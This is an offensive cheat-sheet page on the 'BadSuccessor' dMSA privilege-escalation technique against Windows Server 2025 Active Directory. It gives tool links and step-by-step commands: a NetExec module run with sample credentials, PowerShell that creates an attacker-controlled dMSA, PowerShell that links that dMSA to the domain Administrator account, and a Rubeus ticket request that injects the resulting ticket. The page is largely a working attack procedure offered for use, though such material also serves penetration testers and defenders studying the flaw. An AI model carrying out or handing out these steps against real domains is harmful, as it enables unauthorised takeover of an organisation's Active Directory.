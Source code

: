 # Password - dMSA

Delegated Managed Service Accounts (dMSAs)

## BadSuccessor

**Requirements**:

* Windows Server 2025 Domain Controller
* Permission on any organizational unit (OU) in the domain

**Exploitation**:

* [akamai/BadSuccessor/Get-BadSuccessorOUPermissions.ps1](https://github.com/akamai/BadSuccessor)
* [GhostPack/Rubeus PR #194](https://github.com/GhostPack/Rubeus/pull/194)
* [CravateRouge/bloodyAD Commit #210f735](https://github.com/CravateRouge/bloodyAD/commit/210f735474a403dd64b218b84e98a27e157e7ed3)
* [Pennyw0rth/NetExec PR #702](https://github.com/Pennyw0rth/NetExec/pull/702/commits/e75512a93cde0c893505fd806e169a2aa7a683db)

    ```ps1
    poetry run netexec ldap 10.10.10.10 -u administrator -p Passw0rd -M badsuccessor
    ```

![badsuccessor-attack-flow](https://www.akamai.com/site/en/images/blog/2025/badsuccessor-image5.png)

**Manual Exploitation**:

* Create unfunctional dMSA

    ```ps1
    New-ADServiceAccount -Name "attacker_dmsa" -DNSHostName "dontcare.com" -CreateDelegatedServiceAccount -PrincipalsAllowedToRetrieveManagedPassword "attacker-machine$" -path "OU=temp,DC=aka,DC=test"
    ```

* Edit `msDS-ManagedAccountPrecededByLink` and `msDS-DelegatedMSAState` values

    ```ps1
    # msDS-ManagedAccountPrecededByLink, targeted user or computer
    # msDS-DelegatedMSAState=2, completed migration
    $dMSA = [ADSI]"LDAP://CN=attacker_dmsa,OU=temp,DC=aka,DC=test"
    $dMSA.Put("msDS-DelegatedMSAState", 2)
    $dMSA.Put("msDS-ManagedAccountPrecededByLink", "CN=Administrator,CN=Users,DC=aka,DC=test")
    $dMSA.SetInfo()
    ```

* dMSA authentication with Rubeus

    ```ps1
    Rubeus.exe asktgs /targetuser:attacker_dmsa$ /service:krbtgt/aka.test /dmsa /opsec /nowrap /ptt /ticket:<Machine TGT>
    ```

## References

* [BadSuccessor: Abusing dMSA to Escalate Privileges in Active Directory - Yuval Gordon - May 21, 2025](https://www.akamai.com/blog/security-research/abusing-dmsa-for-privilege-escalation-in-active-directory)
* [Operationalizing the BadSuccessor: Abusing dMSA for Domain Privilege Escalation - Arun Nair - May 23, 2025](https://medium.com/seercurity-spotlight/operationalizing-the-badsuccessor-abusing-dmsa-for-domain-privilege-escalation-429cefc36187)
